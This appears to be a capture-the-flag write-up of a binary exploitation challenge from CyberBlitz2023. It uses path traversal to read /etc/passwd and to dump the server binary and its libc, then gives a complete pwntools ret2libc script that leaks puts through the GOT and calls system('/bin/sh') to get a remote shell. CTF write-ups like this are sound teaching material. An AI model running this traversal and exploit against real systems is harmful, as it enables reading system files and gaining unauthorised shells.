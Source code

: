 # CyberBlitz2023

I played with my team GreenHat and came in 1st place in this year’s SIT N0H4Ts Capture the Flag competition, CyberBlitz. 

Final Scoreboard

![scoreboard](images/scoreboard.png)

During the CTF, I solved the following challenges for my team.

![solves](images/solves.png)

---

## **OSCP is useless here (300 points)**

> Doesnt matter if you have OSCP or not, lets see you get the flag here.
> 
> 
> Connect at [http://34.126.68.54:20001/](http://34.126.68.54:20001/)
> 
> Author : Platy
> 

Category: Binary Exploitation

LFI on the webserver allowed us to dump the binary and associated libc file, which was then used to do a ret2libc attack to leak functions from the Global Offset Table (GOT) to calculate the LIBC offset, then execute system. 

Landing page, we get a site with no other useful information except that it is hosted on Debian Buster and for a Server header: `Http Server written in C`

![landingpage](images/landingpage.png)

![burpsuite](images/burpsuite.png)

Well.. It is binary exploitation, but what we have here is a webserver?

## LFI

After some directory enumeration, we find that the only page is index.html, which loads the same page which we saw in the landing page. Any invalid pages would be redirected to a `404 Not Found`.

We can look for other vulnerabilities such as LFI. When testing for LFI, we can get the contents of /etc/passwd (as this is a debian box) using `/../../../../../../etc/passwd`

![burpsuite2](images/burpsuite2.png)

## Leaking the binary

As the HTTP header suggests the application is a C program hosting a webserver, we can try to dump the binary. Looking into `/proc/self/exe` we could possibly dump the binary file as it would access the executable that is being run by the current process. This is also a common LFI enumeration endpoint: [https://thesecurityvault.com/path-traversal-lfi-can-be-worst-than-you-think/](https://thesecurityvault.com/path-traversal-lfi-can-be-worst-than-you-think/)

> `/proc/self/`
> 
> 
> When a process accesses this magic symbolic link, it resolves to the process's own /proc/pid directory.
> [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html)
> 

We can verify this with burp and it returns what seems to be the contents of the binary.

![burpsuite3](images/burpsuite3.png)

To save it to our system, we can use curl with the `--path-as-is` parameter, as it would automatically shorten the `/../../` for us if run without.

```jsx
┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ curl http://34.126.68.54:20001/../../../../../../proc/self/exe --path-as-is > binary                                                                                                                          
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 17160    0 17160    0     0   165k      0 --:--:-- --:--:-- --:--:--  165k

┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ file binary
binary: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8fcbb0d24464a2d0db075447f04a763182b9d2db, not stripped
```

Checksec tells us it is a 64 bit executable with NX enabled and no other protections. As NX is enabled we won’t be able to execute code from the stack.

```jsx
┌──(kali㉿kali)-[~/Desktop/CTF/CyberBlitz2023]
└─$ checksec binary                                                                     
[*] '/home/kali/Desktop/CTF/CyberBlitz2023/binary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Analyzing the binary, we will find that there is a buffer overflow vulnerability which can be triggered with `"GET " + payload` as input.  Our attack path would be as follows:

1. Get the LIBC used by the binary
2. ROP to leak a function from the GOT on the remote server to calculate LIBC offset
3. ROP again and execute system 

## Getting LIBC: LFI on libc

We can look into the filesystem to get the libc. As implied from the text in the site landing page, we are looking at a Debian box. For Debian based distros, most system libraries can be found from `/lib/x86_64-linux-gnu/`. We can also use ldd:

```python
┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ ldd binary 
        linux-vdso.so.1 (0x00007ffc788dd000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f397305a000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f3973262000)
```

With curl, we would be able to get the libc from the remote server.

```python
┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ curl http://34.126.68.54:20001/../../../../../../lib/x86_64-linux-gnu/libc.so.6 --path-as-is > libc.so                                                                                                        
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 1777k    0 1777k    0     0   116k      0 --:--:--  0:00:15 --:--:--  117k

┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ file libc.so
libc.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a65a82147cd98619525049d4c29cc45f88d1fb00, for GNU/Linux 3.2.0, stripped
```

## ROP

Now that we have the correct libc, we can start constructing our payloads to exploit the binary, which our end goal is to call system and spawn us a shell.

The following would leak the address of the puts in the GOT, which we can then use to calculate the libc offset (to defeat ASLR)

```python
plt_puts = elf.plt['puts']
got_puts = elf.got['puts']
leak_payload = b"GET " + b' ' * 260 + p64(poprdi) + p64(got_puts) + p64(plt_puts) + p64(elf.symbols['main'])
p.sendline(leak_payload)
```

This next part would then call system() and pass in ‘/bin/sh’ which we can get from libc.

```python
libc_offset = puts_address - libc.symbols['puts']
binsh = next(libc.search(b'/bin/sh')) + libc_offset
exploit_payload = b"GET " + b' ' * 260 + p64(poprdi) + p64(binsh) + p64(ret) + p64(libc_offset + libc.symbols['system'])
p.sendline(exploit_payload)
```

With the pieces, the final solver would be as follows:

```jsx
from pwn import *

libc = ELF("libc.so")
p = remote('34.126.68.54',20001)
#p = process("binary")
elf = ELF("binary")

# ROP gadgets
rop = ROP(elf)
poprdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = rop.find_gadget(["ret"])[0]

# leak puts
plt_puts = elf.plt['puts']
got_puts = elf.got['puts']
leak_payload = b"GET " + b' ' * 260 + p64(poprdi) + p64(got_puts) + p64(plt_puts) + p64(elf.symbols['main'])
p.sendline(leak_payload)

p.recvline()
p.recvline()
p.recvline()

# puts
leaked_puts = p.recvline()[:-1] 
puts_address = u64(leaked_puts + b'\x00' * (8 - len(leaked_puts)))
print(f'Leaked puts address: {hex(puts_address)}')

# libc offset
libc_offset = puts_address - libc.symbols['puts']
print(f'Libc offset: {hex(libc_offset)}')

# payload to call system
binsh = next(libc.search(b'/bin/sh')) + libc_offset
exploit_payload = b"GET " + b' ' * 260 + p64(poprdi) + p64(binsh) + p64(ret) + p64(libc_offset + libc.symbols['system'])

p.sendline(exploit_payload)

p.recvline()
p.recvline()
p.recvline()

p.interactive()
```

Which after running on the remote server, we get a shell and the flag.

![flag](images/flag.png)

```python
CyberBlitz{have_you_perhaps_considered_trying_harder_than_you_can_believe}
```

Notes: to be vv honest, i had just wanted to solve this challenge in particular as i had just gotten OSCP recently myself and the challenge name was just an invitation for me (hahaha).. but if you've read till this far thanks for reading!
